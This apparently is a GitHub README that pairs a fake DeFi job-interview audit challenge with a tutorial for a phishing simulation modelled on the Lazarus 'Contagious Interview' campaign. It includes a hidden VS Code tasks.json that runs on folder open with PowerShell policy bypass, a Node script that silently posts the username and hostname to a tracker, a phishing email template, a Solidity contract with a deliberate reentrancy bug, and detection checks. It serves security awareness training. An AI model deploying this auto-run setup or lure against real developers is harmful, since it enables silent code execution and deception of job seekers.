

# 🚀 DeFi Vault - Smart Contract Security Audit Challenge

<div align="center">


**Building the Future of Decentralized Finance**

</div>

---

## 👋 Welcome, Candidate!

Thank you for your interest in the **Senior Blockchain Developer** position at DeFi Innovations. This technical assessment will evaluate your ability to identify and fix critical security vulnerabilities in smart contracts.

## 🎯 The Challenge

Our TokenVault contract has been flagged by our internal security team for a potential **reentrancy vulnerability**. Your mission:

1. **Analyze** the smart contract code in `contracts/TokenVault.sol`
2. **Identify** the security vulnerability
3. **Implement** a secure fix
4. **Write** a brief explanation of the issue and your solution
5. **Submit** your solution within 48 hours

## 🛠️ Setup Instructions

### Prerequisites
- Node.js v18+ and npm
- VS Code (recommended)
- Basic understanding of Solidity and DeFi concepts

### Quick Start

```bash
# Clone the repository
git clone https://github.com/[YOUR-ORG]/defi-vault-audit-challenge.git
cd defi-vault-audit-challenge

# Install dependencies
npm install

# Open in VS Code
code .

# Run tests
npm test

# Compile contracts
npm run compile
```

## 📂 Project Structure

```
defi-vault-audit-challenge/
├── contracts/
│   ├── TokenVault.sol          # Main contract with vulnerability
│   └── interfaces/
│       └── IERC20.sol
├── test/
│   └── TokenVault.test.js      # Test suite
├── scripts/
│   └── deploy.js               # Deployment script
├── hardhat.config.js
└── package.json
```

## 🔍 What We're Looking For

- **Security awareness**: Can you spot the vulnerability?
- **Problem-solving skills**: How do you approach the fix?
- **Code quality**: Is your solution clean and well-documented?
- **Testing**: Do you validate your fix properly?

## 📝 Submission Guidelines

1. Create a new branch: `git checkout -b solution/your-name`
2. Fix the vulnerability in `TokenVault.sol`
3. Add your explanation to `SOLUTION.md`
4. Ensure all tests pass: `npm test`
5. Push your branch and create a Pull Request

## 💰 Position Details

- **Role**: Senior Blockchain Developer
- **Location**: Remote (Global)
- **Compensation**: $180,000 - $220,000 + equity
- **Tech Stack**: Solidity, Hardhat, TypeScript, React, Node.js

## 📞 Questions?

Contact our recruitment team:
- **Email**: recruitment@defi-innovations.io
- **Telegram**: @DeFiInnovationsHR

---

<div align="center">

**Good luck! We're excited to see your solution.** 🎉

*DeFi Innovations © 2026 | [Website](https://defi-innovations.io) | [Careers](https://defi-innovations.io/careers)*

</div>


# 🎯 Building a VS Code Phishing Simulation for Security Awareness Training


**Tags:** #cybersecurity #vscode #phishing #infosec #redteam

---

## 📋 Table of Contents

- [Introduction](#introduction)
- [The Real Threat: Lazarus Group](#the-real-threat-lazarus-group)
- [How the Attack Works](#how-the-attack-works)
- [Building the Simulation](#building-the-simulation)
- [Technical Deep Dive](#technical-deep-dive)
- [Setting Up Your Own Campaign](#setting-up-your-own-campaign)
- [Ethical Considerations](#ethical-considerations)
- [Detection and Prevention](#detection-and-prevention)
- [Conclusion](#conclusion)

---

## 🚨 Introduction

In early 2026, cybersecurity researchers uncovered a sophisticated attack campaign by the North Korean APT group **Lazarus**, targeting developers through fake job interviews. The attack leveraged **VS Code's workspace trust feature** to automatically execute malicious code when developers opened seemingly legitimate project repositories.

This article demonstrates how to build a **safe, educational phishing simulation** based on this real-world attack vector. The goal is to raise security awareness among development teams and teach them to recognize and defend against social engineering attacks.

> ⚠️ **Disclaimer:** This project is intended **strictly for educational purposes** and authorized security awareness training within your organization. Unauthorized use against real targets is illegal and unethical.

---

## 🇰🇵 The Real Threat: Lazarus Group

### Attack Overview

**Lazarus Group** (also known as APT38, Hidden Cobra) is a North Korean state-sponsored threat actor known for:

- **2014**: Sony Pictures hack
- **2016**: Bangladesh Bank heist ($81M stolen)
- **2017**: WannaCry ransomware
- **2022-2026**: Targeting cryptocurrency companies and developers

### The "Contagious Interview" Campaign

In their latest campaign, Lazarus operatives:

1. **Impersonate HR recruiters** from legitimate cryptocurrency/DeFi companies
2. **Send attractive job offers** to developers (often $180k-$220k salaries)
3. **Request candidates to "fix a bug"** or "review code" in a GitHub repository
4. **Exploit VS Code's auto-task execution** to compromise victims

**Real-world impact:**
- Theft of cryptocurrency wallet seed phrases (40+ wallet types)
- Exfiltration of browser passwords, cookies, and session tokens
- Installation of persistent backdoors
- Intellectual property theft

**Reference:** [Contagious Interview Analysis](https://opensourcemalware.com/blog/contagious-interview-vscode)

---

## 🔍 How the Attack Works

### The Kill Chain



### The Technical Mechanism

The attack exploits VS Code's **Task Auto-Run** feature:

**File: `.vscode/tasks.json`**
```json
{
  "version": "2.0.0",
  "tasks": [
    {
      "label": "Initialize Development Environment",
      "type": "shell",
      "command": "./scripts/malicious-script.sh",
      "runOptions": {
        "runOn": "folderOpen"  // ⚠️ Executes on folder open!
      },
      "presentation": {
        "reveal": "never",      // Hidden from user
        "close": true           // Auto-closes terminal
      }
    }
  ]
}
```

**Key parameters:**
- `runOn: "folderOpen"` — Triggers automatically when workspace is trusted
- `reveal: "never"` — Hides the terminal window
- `close: true` — Closes terminal after execution

This means **one click on "Trust Workspace"** can execute arbitrary code without any further user interaction.

---

## 🛠️ Building the Simulation

### Project Goals

1. **Educate developers** about social engineering risks
2. **Demonstrate** real APT tactics in a safe environment
3. **Measure** organizational security awareness
4. **Provide actionable** security training

### Architecture Overview

```
┌─────────────────────────────────────────────────────────────┐
│                    GitHub Repository                        │
│  (Public - Fake DeFi Company Smart Contract Challenge)     │
│                                                             │
│  ├── .vscode/                                              │
│  │   ├── tasks.json          ← Auto-run configuration     │
│  │   └── settings.json                                    │
│  ├── contracts/                                           │
│  │   └── TokenVault.sol      ← Realistic vulnerable code │
│  ├── scripts/                                             │
│  │   ├── init-workspace.js   ← "Malicious" payload       │
│  │   ├── init-workspace.sh                               │
│  │   └── init-workspace.ps1                              │
│  ├── test/                                                │
│  │   └── TokenVault.test.js                              │
│  └── README.md                ← Convincing job challenge  │
└─────────────────────────────────────────────────────────────┘
                           │
                           │ HTTPS POST
                           ▼
┌─────────────────────────────────────────────────────────────┐
│              Internal Tracking Server                       │
│         (Private - Not included in repo)                   │
│                                                             │
│  ├── Flask API Server                                      │
│  ├── SQLite Database                                       │
│  ├── Email Notification System                            │
│  └── Analytics Dashboard                                   │
└─────────────────────────────────────────────────────────────┘
```

---

## 🔬 Technical Deep Dive

### Component 1: The Bait Repository

Create a realistic DeFi project with an intentional vulnerability:

**contracts/TokenVault.sol** (Simplified)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract TokenVault {
    mapping(address => mapping(address => uint256)) public balances;
    
    // ⚠️ INTENTIONAL VULNERABILITY: Reentrancy
    function withdraw(address token, uint256 amount) external {
        require(balances[msg.sender][token] >= amount, "Insufficient balance");
        
        // External call BEFORE state update - classic reentrancy!
        IERC20(token).transfer(msg.sender, amount);
        
        // State update happens after - attacker can re-enter
        balances[msg.sender][token] -= amount;
    }
}
```

This gives candidates a **legitimate technical challenge** while the real test is security awareness.

### Component 2: Auto-Execution Configuration

**.vscode/tasks.json**
```json
{
  "version": "2.0.0",
  "tasks": [
    {
      "label": "Initialize Development Environment",
      "type": "shell",
      "command": "node",
      "args": ["${workspaceFolder}/scripts/init-workspace.js"],
      "windows": {
        "command": "powershell",
        "args": ["-ExecutionPolicy", "Bypass", "-File", 
                 "${workspaceFolder}/scripts/init-workspace.ps1"]
      },
      "linux": {
        "command": "bash",
        "args": ["${workspaceFolder}/scripts/init-workspace.sh"]
      },
      "runOptions": {
        "runOn": "folderOpen"
      },
      "presentation": {
        "reveal": "never",
        "panel": "dedicated",
        "close": true,
        "echo": false
      },
      "problemMatcher": []
    }
  ]
}
```

### Component 3: The "Malicious" Payload

**scripts/init-workspace.js** (Educational version)
```javascript
#!/usr/bin/env node

const https = require('https');
const os = require('os');

// Configuration
const TRACKER_URL = 'https://your-internal-tracker.corp/api/log';

async function collectTelemetry() {
  return {
    timestamp: new Date().toISOString(),
    username: os.userInfo().username,
    hostname: os.hostname(),
    platform: os.platform(),
    workspaceFolder: process.cwd(),
    event: 'vscode_workspace_opened',
    campaign: 'contagious-interview-2026'
  };
}

async function sendToTracker(data) {
  return new Promise((resolve) => {
    const payload = JSON.stringify(data);
    const url = new URL(TRACKER_URL);
    
    const options = {
      hostname: url.hostname,
      port: url.port || 443,
      path: url.pathname,
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'Content-Length': Buffer.byteLength(payload)
      },
      timeout: 3000,
      rejectUnauthorized: false
    };

    const req = https.request(options, () => resolve());
    req.on('error', () => resolve()); // Silent fail
    req.on('timeout', () => { req.destroy(); resolve(); });
    req.write(payload);
    req.end();
  });
}

function showAwarenessNotification() {
  setTimeout(() => {
    const platform = os.platform();
    
    if (platform === 'darwin') {
      // macOS notification
      require('child_process').execSync(
        `osascript -e 'display notification "⚠️ You just executed unknown code! This was a security awareness test. Check your email." with title "🎓 Security Test"'`,
        { stdio: 'ignore' }
      );
    } else if (platform === 'linux') {
      // Linux notification
      require('child_process').execSync(
        `notify-send "🎓 Security Test" "⚠️ You just executed unknown code! Check your email." -u critical`,
        { stdio: 'ignore' }
      );
    } else if (platform === 'win32') {
      // Windows notification
      require('child_process').execSync(
        `powershell -Command "Add-Type -AssemblyName System.Windows.Forms; [System.Windows.Forms.MessageBox]::Show('⚠️ You just executed unknown code!\\n\\nThis was a security awareness test.', 'Security Test', 'OK', 'Warning')"`,
        { stdio: 'ignore' }
      );
    }
  }, 5000);
}

async function main() {
  try {
    const telemetry = await collectTelemetry();
    sendToTracker(telemetry).catch(() => {});
    showAwarenessNotification();
    console.log('✓ Development environment initialized successfully');
  } catch {
    console.log('✓ Workspace ready');
  }
}

main();
```

**Key features:**
- ✅ Collects **only non-sensitive** telemetry (username, hostname, timestamp)
- ✅ Shows **immediate educational notification** after 5 seconds
- ✅ Fails silently if tracking server is unavailable
- ✅ Cross-platform support (Windows, macOS, Linux)
- ❌ **Does NOT collect** passwords, tokens, or sensitive data

### Component 4: The Phishing Email

```
From: Sarah Chen <sarah.chen@defi-innovations.io>
Subject: Senior Blockchain Developer Position - Technical Assessment

Hi [Name],

I'm Sarah, Senior Technical Recruiter at DeFi Innovations. 
We're impressed with your GitHub profile and would like to offer you 
a Senior Blockchain Developer position (Remote, $180k-$220k + equity).

For technical evaluation, please:

1. Clone: https://github.com/defi-innovations/smart-contract-audit
2. Find and fix the reentrancy vulnerability in TokenVault.sol
3. Submit your solution within 48 hours

We value your time and will discuss the full offer after successful completion.

Best regards,
Sarah Chen
Senior Technical Recruiter
DeFi Innovations | Building the Future of Finance
```

**Social engineering tactics used:**
- ✅ High salary to create urgency and excitement
- ✅ Legitimate-sounding company name
- ✅ Technical challenge that seems reasonable
- ✅ Time pressure (48 hours)
- ✅ Professional tone and formatting

---

## 🚀 Setting Up Your Own Campaign

### Prerequisites

- Internal network or VPS for tracking server
- SMTP server for email notifications
- Legal approval from your organization
- HR/Management buy-in

### Step 1: Clone and Customize the Repository

```bash
# Clone the simulation repository
git clone https://github.com/toxy4ny/lazarus-code.git
cd lazarus-code

# Customize the company name, branding, and challenge
# Edit README.md, package.json, etc.
```

### Step 2: Configure the Tracking URL

Edit all payload scripts to point to your tracking server:

**scripts/init-workspace.js**
```javascript
const TRACKER_URL = 'https://your-internal-tracker.company.local/api/log';
```

**scripts/init-workspace.sh**
```bash
TRACKER_URL="https://your-internal-tracker.company.local/api/log"
```

**scripts/init-workspace.ps1**
```powershell
$TrackerUrl = "https://your-internal-tracker.company.local/api/log"
```

### Step 3: Deploy Your Tracking Server

You'll need to implement your own tracking server. Here's the API specification:

**Required Endpoints:**

```
POST /api/log
Content-Type: application/json

{
  "timestamp": "2026-01-15T10:30:00Z",
  "username": "jdoe",
  "hostname": "LAPTOP-ABC123",
  "platform": "win32",
  "workspaceFolder": "C:\\Users\\jdoe\\Projects\\defi-vault",
  "event": "vscode_workspace_opened",
  "campaign": "contagious-interview-2026"
}

Response: 200 OK
{
  "status": "ok",
  "id": 42
}
```

**Recommended tech stack:**
- **Backend**: Flask (Python), Express (Node.js), or FastAPI
- **Database**: SQLite, PostgreSQL, or MongoDB
- **Email**: SMTP integration with corporate mail server
- **Dashboard**: Simple HTML/JS or React frontend

### Step 4: Push to GitHub

```bash
# Create a new organization or use existing
# Make the repository public for maximum realism

git remote add origin https://github.com/fake-company/challenge.git
git push -u origin main
```

### Step 5: Craft Your Phishing Campaign

**Email template variables:**
```
- {{candidate_name}}
- {{candidate_email}}
- {{repository_url}}
- {{deadline}}
- {{salary_range}}
```

**Targeting strategy:**
- Start with security-aware teams (IT, DevOps)
- Gradually expand to all engineering
- Track department-wise statistics

### Step 6: Launch and Monitor

```bash
# Start your tracking server
python3 tracker-server.py

# Monitor the dashboard
open http://localhost:5000/dashboard

# Send phishing emails
# (Use your organization's approved method)
```

### Step 7: Debrief and Educate

**Immediate actions (within 5 minutes):**
- Show desktop notification to victim
- Send educational email with explanation

**Follow-up (within 24 hours):**
- Department-wide security training
- Share statistics (anonymized)
- Provide prevention guidelines

**Long-term (monthly):**
- Repeat campaigns with variations
- Track improvement over time
- Recognize security-conscious employees

---

## ⚖️ Ethical Considerations

### Legal Requirements

✅ **DO:**
- Get written approval from legal/HR
- Include security awareness training in employee policies
- Notify employees that periodic testing will occur (without specifics)
- Anonymize data in reports
- Use only for authorized internal training

❌ **DON'T:**
- Collect real credentials, passwords, or sensitive data
- Publicly shame employees who fall for the test
- Use as grounds for termination or punishment
- Deploy without organizational approval
- Share victim data outside security team

### Privacy Protection

**Data collection limits:**
```javascript
// ✅ ALLOWED
{
  "username": "jdoe",
  "hostname": "LAPTOP-123",
  "timestamp": "2026-01-15T10:30:00Z"
}

// ❌ FORBIDDEN
{
  "passwords": [...],
  "ssh_keys": [...],
  "browser_cookies": [...],
  "crypto_wallets": [...]
}
```

### Responsible Disclosure

After the campaign:
1. **Explain** what happened to all participants
2. **Educate** on how to detect similar attacks
3. **Provide** resources for secure development
4. **Celebrate** those who reported the suspicious email
5. **Iterate** on training based on feedback

---

## 🛡️ Detection and Prevention

### For Developers

#### 🔍 Red Flags to Watch For

1. **Unsolicited job offers** with high salaries
2. **Urgent technical challenges** from unknown companies
3. **GitHub repositories** from unverified organizations
4. **Email domains** that don't match company websites
5. **Pressure to act quickly** without proper vetting

#### ✅ Best Practices

**Before opening any project:**

```bash
# 1. Check the repository source
git remote -v
# Verify the domain matches the company's official website

# 2. Inspect .vscode/tasks.json
cat .vscode/tasks.json
# Look for "runOn": "folderOpen" - this is suspicious!

# 3. Check for auto-run scripts
grep -r "runOn" .vscode/
find . -name "*.sh" -o -name "*.ps1" -o -name "*.bat"

# 4. Review package.json scripts
cat package.json | grep -A 10 "scripts"
# Look for "postinstall" or other auto-run hooks
```

**VS Code security settings:**

```json
// settings.json
{
  "security.workspace.trust.enabled": true,
  "security.workspace.trust.startupPrompt": "always",
  "security.workspace.trust.banner": "always",
  "security.workspace.trust.emptyWindow": false,
  
  // Disable auto-task execution
  "task.allowAutomaticTasks": "off"
}
```

**Use isolated environments:**

```bash
# Option 1: Docker container
docker run -it --rm -v $(pwd):/workspace node:18 bash

# Option 2: Virtual machine
# Use VirtualBox, VMware, or cloud VM

# Option 3: Windows Sandbox (Windows 10/11 Pro)
# Enable in Windows Features
```

### For Security Teams

#### Detection Strategies

**1. Monitor for suspicious repositories**
```bash
# GitHub API search for repos with auto-run tasks
curl -H "Authorization: token YOUR_TOKEN" \
  "https://api.github.com/search/code?q=runOn+folderOpen+in:file+filename:tasks.json"
```

**2. Network monitoring**
```bash
# Watch for unusual outbound connections from developer machines
# Alert on POST requests to unknown domains from code editors
```

**3. Endpoint detection**
```bash
# Monitor process trees for VS Code spawning unusual children
# Alert on: code.exe -> node.exe -> curl/powershell/bash
```

**4. Email filtering**
```
# Create rules for suspicious patterns:
- Job offers with GitHub links
- Emails from new/unverified crypto companies
- Urgent technical assessments
- Salary ranges in subject lines
```

#### Prevention Controls

**1. Application whitelisting**
```powershell
# Allow only approved VS Code extensions
# Block execution of scripts from %TEMP%, Downloads, etc.
```

**2. Network segmentation**
```bash
# Restrict developer workstations from accessing:
- Cryptocurrency wallet domains
- Paste sites (pastebin, etc.)
- Anonymous file sharing services
```

**3. Mandatory code review**
```yaml
# .github/workflows/security-scan.yml
name: Security Scan
on: [pull_request]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - name: Scan for auto-run tasks
        run: |
          if grep -r "runOn.*folderOpen" .vscode/; then
            echo "⚠️ Auto-run task detected!"
            exit 1
          fi
```

---

## 📊 Measuring Success

### Key Metrics

```python
# Campaign effectiveness
success_rate = (victims / total_targets) * 100
click_through_rate = (opened_emails / sent_emails) * 100
report_rate = (reported_suspicious / sent_emails) * 100

# Improvement over time
improvement = (previous_success_rate - current_success_rate) / previous_success_rate * 100
```

### Sample Dashboard

```
┌─────────────────────────────────────────────────────────────┐
│              Campaign: Contagious Interview 2026            │
├─────────────────────────────────────────────────────────────┤
│  Targets:          150 employees                           │
│  Victims:           23 (15.3%)                             │
│  Reported:          12 (8.0%)                              │
│  Ignored:          115 (76.7%)                             │
│                                                             │
│  By Department:                                            │
│    Engineering:     18/100 (18%)                           │
│    Product:          3/30  (10%)                           │
│    Marketing:        2/20  (10%)                           │
│                                                             │
│  Time to Click:                                            │
│    < 1 hour:        15 victims                             │
│    1-24 hours:       6 victims                             │
│    > 24 hours:       2 victims                             │
└─────────────────────────────────────────────────────────────┘
```

---

## 🎓 Educational Materials

### Post-Campaign Training

**Email template for victims:**

```
Subject: 🎓 Security Awareness Test Results

You participated in a simulated phishing attack based on real 
tactics used by the Lazarus APT group.

WHAT HAPPENED:
You opened a repository and trusted the workspace, which 
automatically executed a script via .vscode/tasks.json.

REAL-WORLD IMPACT:
In an actual attack, this could have resulted in:
- Cryptocurrency wallet theft
- Source code exfiltration  
- Credential harvesting
- Persistent backdoor installation

HOW TO PROTECT YOURSELF:
1. Always verify the source before opening projects
2. Inspect .vscode/tasks.json for "runOn": "folderOpen"
3. Use VMs or containers for untrusted code
4. Enable VS Code's workspace trust features
5. Report suspicious job offers to security@company.com

RESOURCES:
- [Internal security wiki]
- [VS Code security guide]
- [Social engineering training]

Questions? Contact security-team@company.com
```

### Training Workshop Outline

**90-minute session:**

1. **Introduction (10 min)**
   - Real-world attack statistics
   - Lazarus Group case studies

2. **Live Demonstration (20 min)**
   - Show the attack in action
   - Explain the technical mechanism

3. **Hands-on Exercise (30 min)**
   - Participants inspect malicious repo
   - Identify red flags
   - Practice safe code review

4. **Prevention Strategies (20 min)**
   - VS Code security settings
   - Isolated development environments
   - Email verification techniques

5. **Q&A and Discussion (10 min)**

---

## 🔗 Resources

### Official Documentation
- [VS Code Workspace Trust](https://code.visualstudio.com/docs/editor/workspace-trust)
- [VS Code Tasks](https://code.visualstudio.com/docs/editor/tasks)
- [MITRE ATT&CK: Lazarus Group](https://attack.mitre.org/groups/G0032/)

### Security Research
- [Contagious Interview Analysis](https://opensourcemalware.com/blog/contagious-interview-vscode)
- [CISA Alert on North Korean Threats](https://www.cisa.gov/topics/cyber-threats-and-advisories/advanced-persistent-threats/north-korea)
- [Microsoft: Tracking Lazarus Group](https://www.microsoft.com/security/blog/threat-intelligence/lazarus-group/)

### Similar Projects
- [Social Engineering Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit)
- [Gophish - Open-Source Phishing Framework](https://getgophish.com/)
- [King Phisher](https://github.com/rsmusllp/king-phisher)

---

## 📝 Conclusion

The "Contagious Interview" attack demonstrates how even security-conscious developers can fall victim to sophisticated social engineering when combined with technical exploitation. By building realistic simulations, we can:

1. **Educate** teams about emerging threats
2. **Measure** organizational security posture
3. **Improve** incident response capabilities
4. **Foster** a security-first culture

### Key Takeaways

✅ **For Developers:**
- Always verify project sources before opening
- Inspect `.vscode/tasks.json` for auto-run configurations
- Use isolated environments for untrusted code
- Report suspicious job offers immediately

✅ **For Security Teams:**
- Regular phishing simulations improve awareness
- Combine technical and social engineering testing
- Focus on education, not punishment
- Measure improvement over time

✅ **For Organizations:**
- Security awareness is everyone's responsibility
- Invest in regular training programs
- Celebrate employees who report suspicious activity
- Create a blame-free security culture

### Next Steps

1. **Star this repository** for future reference
2. **Customize** the simulation for your organization
3. **Deploy** your first awareness campaign
4. **Share** your results and learnings with the community
5. **Contribute** improvements back to this project

---

## 🤝 Contributing

We welcome contributions! If you have ideas for improving this simulation:

1. Fork the repository
2. Create a feature branch (`git checkout -b feature/amazing-improvement`)
3. Commit your changes (`git commit -m 'Add amazing improvement'`)
4. Push to the branch (`git push origin feature/amazing-improvement`)
5. Open a Pull Request

### Areas for Contribution

- Additional payload scripts (Python, Ruby, etc.)
- Improved notification systems
- Multi-language support
- Alternative scenarios (npm packages, browser extensions, etc.)
- Better analytics and reporting

---

## 📜 License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

### Important Legal Notice

This software is provided for **educational and authorized security testing purposes only**. Users are responsible for ensuring they have proper authorization before deploying this simulation. The authors assume no liability for misuse or unauthorized deployment.

By using this software, you agree to:
- Obtain proper authorization from your organization
- Use only in controlled environments
- Not collect sensitive personal data
- Comply with all applicable laws and regulations
- Use for security awareness training only

---

### Acknowledgments

- Cybersecurity researchers who uncovered the original Lazarus campaign
- The VS Code team for building security features
- Security awareness professionals worldwide

---

## ⭐ Show Your Support

If this project helped improve your organization's security awareness, please:

- ⭐ **Star** this repository
- 🐦 **Tweet** about your experience
- 📝 **Write** a blog post about your campaign
- 💬 **Share** with your security community

**Together, we can make the developer community more secure!** 🛡️

### 📈 Project Stats


---

**Remember: Security is not a product, but a process. Stay vigilant! 🔐**
